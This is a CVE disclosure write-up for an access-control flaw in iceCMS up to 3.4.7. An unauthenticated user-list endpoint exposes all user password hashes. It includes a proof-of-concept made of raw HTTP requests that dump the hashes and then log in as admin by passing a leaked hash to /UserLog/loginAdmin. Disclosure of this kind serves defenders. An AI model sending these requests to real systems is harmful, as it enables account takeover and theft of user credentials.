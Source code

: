 
**[CVE-ID]**
CVE-2024-46609

**[PRODUCT]**
icecms

**[Vendor of Product]**
https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**
icecms <=3.4.7

**[Vulnerability Type]**
Incorrect Access Control

**[Description]**
Unauthorized acquisition of all user passwords.
The vulnerability is in the CheckVip function in UserController.java. The route of this function is @GetMapping("/getUserList/{page}/{limit}"). This interface does not perform authentication processing, resulting in attackers being able to directly request this interface to obtain the information of all users, including passwords.
![pic0](/icecms/PIC/CVE-2024-46609-0.png)



## POC：

Use Burpsuite to send the login data packet as follows. 
Through this interface, encrypted passwords of all users can be obtained without authorization.
```
GET /User/getUserList/1/50 HTTP/1.1
Host: localhost:8181
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="96"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 2

```

![pic1](/icecms/PIC/CVE-2024-46609-1.png)

 
Then, the interface /UserLog/loginAdmin can be used to log in through the encrypted password, thereby obtaining the jwt authentication information of the user.
```
GET /UserLog/loginAdmin?username=admin&password=$argon2i$v=19$m=65536,t=3,p=1$Bd4DS8mtP2ZM3DInyCT/sg$pQixU/obFvmj9wZXu658pZ4G5epINkfdET17xx8X3R8 HTTP/1.1
Host: localhost:8181
sec-ch-ua: "Chromium";v="123", "Not:A-Brand";v="8"
Accept: application/json, text/plain, */*
Content-Type: application/x-www-form-urlencoded
sec-ch-ua-mobile: ?0
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwic3ViIjoiMyIsImV4cCI6MTcyNzA4MjY1MywianRpIjoiYWQ5NDQ5OTgtYTFmNy00YWZlLWI4N2MtNDQ2NGI0OTI4YTgzIn0.MrUf_EPqXasTngKjkdkXg9WOeso8yhMs1mGxrKnwYPc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://192.168.110.175:9528
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://192.168.110.175:9528/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

![pic2](/icecms/PIC/CVE-2024-46609-2.png)


